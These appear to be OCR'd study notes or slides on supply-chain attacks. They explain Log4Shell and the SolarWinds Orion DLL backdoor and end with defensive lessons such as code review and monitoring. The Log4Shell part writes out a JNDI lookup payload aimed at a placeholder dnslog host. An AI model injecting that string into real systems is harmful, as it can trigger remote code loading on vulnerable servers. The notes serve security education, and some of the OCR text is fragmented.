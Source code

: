
a Java application that uses Log4j.  
jndi:ldap://xxx.dnslog.cn/a  
Attacker Java App Malicious  
LDAP  
Malicious  
Text  
LDAP  
Lookup  
Malicious  
Payload





## SolarWinds 




SolarWinds  
A SaaS company for IT management and  
administration. The attack took advantage  
of Orion, anm IT management and  
performance monitoring solution.  
Evidence says that as early as October  
2019, attackers inserted malicious code  
into a DLL file that orion used. The file was  
digitally signed by SolarWinds, so it was  
before the final product was built.  
https://www.microsoft.com/en-us/security/blog/2020/12/18/analyzing-solorigat  
e-the-compromised-dll-file-that-started-a-sophisticated-cyberattack-and-how-mi  
crosoft-defender-helps-protect/


Attackers broke into Solarwinds, and the attacker changed the source code of a .dll file and added a backdoor. People who used Orion can a back door into their system. The .DLL evaded AntiVirus. It was not a normal reverse shell. They made a compiler, where it processed C# Code, and compile it in memory. For each command sent, it was a different C# code. A lot of malware is done through many stages to avoid antivirus. Antiviruses sandboxes the malicious package. If you sandbox C# code, it would nto do anything. 



They called the function OrionImprovement, where it checked if it was active, and if not active activated itself. A lot of people were affected. Organizations who used Solarwinds got affected automatically if they used Orion. 



Supply Chain Attacks happen. SOC 2 checkup when using a SaaS from a third-party.




Lessons  
● Perform code review - easier said than done  
● Have active monitoring of your systems  
● Implement multiple security layers (SIEM, EndpointDetectionResponse, etc.)  
● Have an IR Plan
